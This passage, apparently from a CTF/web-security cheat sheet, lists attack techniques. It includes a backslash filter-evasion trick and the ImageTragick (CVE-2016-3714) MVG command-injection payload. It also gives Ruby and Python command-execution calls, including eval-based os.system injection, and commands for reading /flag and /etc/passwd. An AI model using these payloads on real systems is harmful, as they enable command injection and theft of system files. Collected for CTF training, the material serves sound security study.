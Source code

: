 - 反斜線
  - `c\at fl\ag`

## ImageMagick (ImageTragick)

- CVE-2016-3714
- `mvg`格式包含https處理(使用curl下載)，可以閉合雙引號
- payload:

```mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://kaibro.tw";ls "-la)'
pop graphic-context
```

## Ruby Command Executing

- `open("| ls")`
- `IO.popen("ls").read`
- `Kernel.exec("ls")`
- ``` `ls` ```
- `system("ls")`
- `eval("ruby code")`
  - Non-Alphanumeric example: HITCON CTF 2015 - Hard to say
    - `$$/$$` => 1
    - `'' << 97 << 98 << 99` => "abc"
    - `$:`即`$LOAD_PATH`
- `exec("ls")`
- `%x{ls}`
- Net::FTP
  - CVE-2017-17405
  - use `Kernel#open`

## Python Command Executing
- `os.system("ls")`
- `os.popen("ls").read()`
- `os.execl("/bin/ls","")`
- `os.execlp("ls","")`
- `os.execv("/bin/ls",[''])`
- `os.execvp("/bin/ls",[""])`
- `subprocess.call("ls")`
  - `subprocess.call("ls|cat",shell=False)` => Fail
  - `subprocess.call("ls|cat",shell=True)` => Correct
- `eval("__import__('os').system('ls')")`
- `exec("__import__('os').system('ls')")`
- `commands.getoutput('ls')`

## Read File

- diff /etc/passwd /flag
- paste /flag
- bzmore /flag
- bzless /flag
- static-sh /flag
- ...

